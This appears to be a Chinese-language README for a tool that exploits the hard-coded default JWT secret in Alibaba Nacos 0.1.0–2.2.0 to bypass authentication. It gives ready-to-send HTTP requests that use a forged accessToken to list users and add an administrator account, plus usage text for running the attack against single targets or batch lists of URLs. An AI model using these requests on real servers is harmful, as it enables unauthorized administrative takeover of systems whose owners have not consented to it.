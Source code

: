 首发于t00ls.com

### 漏洞原理

好多大佬都分享过了，这里就简单说下：

Nacos漏洞版本`/conf` 默认配置文件 `application.properties ` 中，`nacos.core.auth.default.token.secret.key` 使用了硬编码，使用该key可构造jwt进行token认证。

认证成功后获得`accessToken` ，使用`accessToken` 可对Naocs进行任意操作（这不废话么，已经登录了）

### 影响范围

0.1.0 <= Nacos <= 2.2.0

### 工具思路
既然登录后使用`accessToken`可以进行任意操作，那直接查看管理员或者干脆新增用户登录不就得了么，这里加上认证成功后的token 直接使用CVE-2021-29441的payload读取用户列表和新增系统用户，如下：

查看用户列表
```http
GET /nacos/v1/auth/users?pageNo=1&pageSize=9 HTTP/1.1
Host: xxx
accessToken: xxxxxx
```
新增管理员
```http
POST /nacos/v1/auth/users HTTP/1.1
Host: xxx
Content-Type: application/x-www-form-urlencoded
accessToken: xxx
Content-Length: 27

username=fuck&password=fuck
```

### Tools Usage

```shell
_____                 ____      ___         _ _   _____     _
|   | |___ ___ ___ ___|    \ ___|  _|___ _ _| | |_|_   _|___| |_ ___ ___
| | | | .'|  _| . |_ -|  |  | -_|  _| .'| | | |  _| | | | . | '_| -_|   |
|_|___|__,|___|___|___|____/|___|_| |__,|___|_|_|   |_| |___|_,_|___|_|_|

Alibaba Nacos Default Token身份认证绕过 author: Dghpi9
vul version: 0.1.0 <= Nacos <= 2.2.0
Usage:
 -u http://192.168.0.1:8848 -g  读取用户列表
 -u http://192.168.0.1:8848 -a  新增系统用户
 -f url.txt -g  批量读取用户列表
 -f url.txt -a  批量新增用户
Options:
  -u string
        指定单个目标
  -f string
        传入文件列表
  -g    读取用户列表
  -a    新增系统用户
```

